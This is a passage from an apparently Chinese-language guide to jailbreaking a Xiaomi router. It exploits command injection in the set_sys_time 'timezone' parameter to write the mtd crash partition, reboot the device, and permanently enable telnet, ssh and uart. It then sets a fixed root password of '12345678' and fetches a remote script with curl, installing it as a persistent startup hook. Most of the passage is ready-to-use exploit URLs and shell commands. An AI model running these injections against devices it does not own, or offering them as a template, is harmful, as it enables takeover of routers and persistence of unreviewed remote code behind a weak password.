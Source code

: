 ```
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```
网页内容显示{"code":0}表示成功开启调试模式
## 3. 通过浏览器请求重启路由器
继续将复制的 stok 值替换如下网址的{stok}并访问：
```
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```
网页内容显示{"code":0}，此时路由器会重启
## 4. 再次复制 stok 值
重启完成后进入路由器管理页面并登录，再次复制 stok 值
## 5. 设置 Bdata 永久开启 Telnet
将复制的 stok 值替换如下网址的{stok}并访问：
```
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```
网页内容显示{"code":0}表示成功设置 Bdata 永久开启 Telnet
## 6. 再次通过浏览器请求重启路由器
继续将复制的 stok 值替换如下网址的{stok}并访问：
```
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```
网页内容显示{"code":0}，此时路由器会再次重启
## 7. 连接 Telnet
显示“ARE U OK”表示成功解锁 SSH  
[![QQ-20230102101630.png](https://i.postimg.cc/DZ1CdfQ8/QQ-20230102101630.png)](https://postimg.cc/ygYX7HbH)
## 8. 永久开启并固化 SSH
直接粘贴如下所有命令：
- 注：第一行命令是将 Telnet 或 SSH 登录密码设置为“12345678”，可自定义
```
echo -e '12345678\n12345678' | passwd root
nvram set ssh_en=1
nvram set telnet_en=1
nvram set uart_en=1
nvram set boot_wait=on
nvram commit
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
/etc/init.d/dropbear restart
mkdir /data/auto_ssh
cd /data/auto_ssh
curl -O https://fastly.jsdelivr.net/gh/lemoeo/AX6S@main/auto_ssh.sh
chmod +x auto_ssh.sh
uci set firewall.auto_ssh=include
uci set firewall.auto_ssh.type='script'
uci set firewall.auto_ssh.path='/data/auto_ssh/auto_ssh.sh'
uci set firewall.auto_ssh.enabled='1'
uci commit firewall
uci set system.@system[0].timezone='CST-8'
uci set system.@system[0].webtimezone='CST-8'
uci set system.@system[0].timezoneindex='2.84'
uci commit
```